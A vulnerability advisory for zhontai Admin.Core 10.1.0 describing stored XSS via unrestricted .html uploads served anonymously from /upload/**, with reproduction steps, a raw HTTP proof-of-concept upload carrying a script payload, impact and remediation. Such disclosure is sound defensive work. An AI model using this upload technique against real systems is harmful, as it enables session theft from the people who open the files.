

# Admin.Core — HTML upload allowed and /upload/** served anonymously (stored XSS) (AC-VULN-005)

| Field | Value |
|-------|-------|
| Vendor | zhontai |
| Product | Admin.Core (中台Admin) |
| Version | 10.1.0 |
| Type | Cross Site Scripting |
| CWE | CWE-434 / CWE-79 |
| Authentication | Authenticated user with file upload permission |
| Severity | High |

## Summary

`ossconfig.json` ExcludeExtension only blocks `.exe/.dll/.jar`; `.html` uploads succeed. Files are served under `/upload/**` as `text/html` without auth.

## Root cause

Permissive upload allowlist + public static file mapping for upload directory.

## Exploit / reproduction

1. Login as admin and upload `poc.html` via `/api/admin/file/upload-file`.
2. Open returned `linkUrl` anonymously, e.g. [http://127.0.0.1:18010/upload/2026/08/03/6a705817-dfb1-cd4d-0031-469144d63ae2.html](http://127.0.0.1:18010/upload/2026/08/03/6a705817-dfb1-cd4d-0031-469144d63ae2.html).


## PoC (Yakit)

```http
POST /api/admin/file/upload-file HTTP/1.1
Host: 127.0.0.1:18010
Authorization: Bearer ADMIN_TOKEN
Content-Type: multipart/form-data; boundary=----BOUNDARY
Connection: close

------BOUNDARY
Content-Disposition: form-data; name="file"; filename="poc.html"
Content-Type: text/html

<script>document.title='XSS_OK'</script>
------BOUNDARY--

# Then GET returned linkUrl without Authorization
```

Expected: Upload returns linkUrl; anonymous GET executes script (document.title=XSS_OK)

## Screenshots



## Impact

Stored XSS against anyone opening the file URL (admin session theft).

## Remediation

Block html/htm/svg/xml; serve uploads as attachment/octet-stream; require auth for /upload/**.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/admincore_poc_verify.py`, `admincore_jwt_forge.py`
- Upstream: https://github.com/zhontai/Admin.Core
